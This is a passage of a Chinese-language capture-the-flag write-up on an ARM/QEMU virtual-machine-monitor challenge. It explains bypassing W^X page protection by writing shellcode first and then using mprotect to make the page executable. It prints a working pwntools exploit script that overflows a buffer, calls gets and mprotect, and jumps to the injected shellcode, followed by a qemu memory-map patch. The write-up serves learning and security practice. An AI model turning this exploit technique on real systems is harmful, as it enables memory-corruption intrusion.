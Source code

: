 不過因為 ARM 處理器有對 page permission 做 W^X 的保護 (`ERROR:   [VMM] RWX pages are not allowed `)，因此同個 page 不能同時做 execute 與 write，而只需要先寫後再執行就可以繞掉了：

```python
#!/usr/bin/python3

from pwn import *

r = remote('localhost', 6666)
print_flag = 0x400104
mprotect = 0x401B68
gets = 0x4019B0
addr = 0x00007ffeffffd000

EXEC = 4
WRITE = 2
READ = 1
input(">")

# gets(addr)
r.sendlineafter('cmd> ', '0')
r.sendlineafter('index: ', b'0'.ljust(0x100, b'\x00') + p64(gets))

input(">shellcode")
r.sendline(b'\x00'*0x30 + bytes.fromhex('1f2003d51f2003d51f2003d51f2003d5c0035fd6'))

input(">")
# mprotect(addr, 0x1000, R-X)
r.sendlineafter('cmd> ', b'1'.ljust(0x100, b'\x00') + p64(print_flag) + p64(mprotect))
r.sendlineafter('index: ', str(0x1000))
r.sendlineafter('key: ', '1'*(READ | EXEC))

# call addr
r.sendlineafter('cmd> ', '0')
r.sendlineafter('index: ', b'A'*0x100 + p64(addr + 0x30))

r.interactive()
```



當可以執行任意 shellcode，轉回去分析 bios.bin 以及 qemu 的 match：

```c
// qemu.patch
+static const MemMapEntry memmap[] = {
+    /* Space up to 0x8000000 is reserved for a boot ROM */
+    [VIRT_FLASH] =              {          0, 0x08000000 },
+    [VIRT_CPUPERIPHS] =         { 0x08000000, 0x00020000 },
+    [VIRT_UART] =               { 0x09000000, 0x00001000 },
+    [VIRT_SECURE_MEM] =         { 0x0e000000, 0x01000000 },
+    [VIRT_MEM] =                { 0x40000000, RAMLIMIT_BYTES },
+};
```

